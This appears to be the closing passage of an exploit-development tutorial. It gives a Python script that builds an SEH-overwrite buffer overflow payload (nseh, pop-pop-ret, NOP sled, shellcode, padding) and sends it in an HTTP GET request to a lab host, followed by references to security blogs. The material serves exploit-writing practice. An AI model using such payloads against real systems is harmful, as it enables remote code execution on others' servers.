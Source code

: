 ```python
print "[*] Starting to GET Variable"
buffer += nseh #BBBB
buffer += seh #pop pop ret
buffer += shellcodenops
buffer += shellcode
junk = "D"*(10000-len(buffer))
buffer += junk #Bunch of D"s to fill remaining space

payload = "GET %d" + str(buffer) + " HTTP/1.1\r\n"
payload += "Host: bof.local\r\n"
payload += "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36\r\n"
payload += "Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8"


print "[*] Starting to Fuzz GET Variable with %s bytes" %len(payload)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('bof.local',80))
print "[*] Connected to bof.local on Port 80"
s.send((payload))
s.close()
print "[*] Finished Fuzzing GET Variable with %s bytes" %len(payload)
```





Similar to **VulnServer** - I also created a nice little diagram in Visio to demonstrate the exploit and jumps from a high level.




<p align = "center">
<img src = "https://i.imgur.com/crUGyBR.png">
</p>







# References / Resources



Special Shoutout to all the People Below:

[https://h0mbre.github.io](https://h0mbre.github.io/)

[https://www.securitysift.com](https://www.securitysift.com/)

[https://captmeelo.com](https://captmeelo.com/)

[https://www.fuzzysecurity.com](https://www.fuzzysecurity.com/)

[https://securitychops.com](https://securitychops.com/)

https://nutcrackerssecurity.github.io/Windows4.html